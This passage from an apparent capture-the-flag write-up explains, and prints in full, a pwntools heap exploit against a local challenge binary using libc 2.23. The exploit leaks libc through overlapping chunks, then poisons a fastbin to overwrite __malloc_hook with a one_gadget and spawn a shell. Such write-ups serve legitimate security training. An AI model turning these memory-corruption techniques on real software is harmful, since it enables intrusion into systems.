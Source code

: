 we just allocate another chunk with the same size and put our payload that overwrites __malloc_hook with one_gadget.
last step will be triggering a malloc call which is done by just creating a random chunk and a malloc call will be done (our one_gadget will be executed.)

![](https://i.imgur.com/qwTtpI4.png)

> Full exploit : 
```python=
#!/usr/bin/env python3
from pwn import *
import time

context.update(arch="amd64", os="linux", log_level="debug")

p = process("./main_patched")
elf = ELF('./main_patched')
libc = ELF("./libc-2.23.so")

def sl(choice): p.sendlineafter('> ',str(choice))
def alloc(idx,size,data):
    sl('1')
    p.sendlineafter(b'index: ',str(idx))
    p.sendlineafter(b'size: ',str(size))
    p.sendlineafter(b'Content:',data)
def free(idx):
    sl('3')
    p.sendlineafter(b'index: ',str(idx))
def edit(idx,data):
    sl('2')
    p.sendlineafter(b'index: ',str(idx))
    p.sendlineafter(b'Content: ',data)
def show(idx):
    sl('4')
    p.sendlineafter(b'index: ',str(idx))

def main():
    pause()
    alloc(0, 0xf8, "A"*0xf7)
    alloc(1, 0x68, "B"*0x67)
    alloc(2, 0xf8, "C"*0xf7)
    alloc(3, 0x10, "D"*0x9)
    free(0)
    edit(1, b"A"*0x60 + p64(0x170))
    free(2)
    alloc(0, 0xf8, "E"*0xf7)
    show(1)
    p.recvuntil("Content: ")
    libc_base = u64(p.recv(6).ljust(8,b"\x00")) - (libc.sym.main_arena + 88)
    log.success("Libc base @  " + hex(libc_base))
    alloc(4,0x68, "A"*0x10)
    free(1)
    hook = libc_base + (libc.sym["__malloc_hook"] - 0x23)
    one = libc_base + 0xf1247
    print(hex(hook))
    print(hex(one))
    payload = b"A" * 0x13 + p64(one) * 2
    edit(4, p64(hook))
    alloc(5, 0x68, "")
    alloc(6, 0x68, payload)
    p.sendline("1")
    p.sendline("8")
    p.sendline("52")
    p.interactive()
```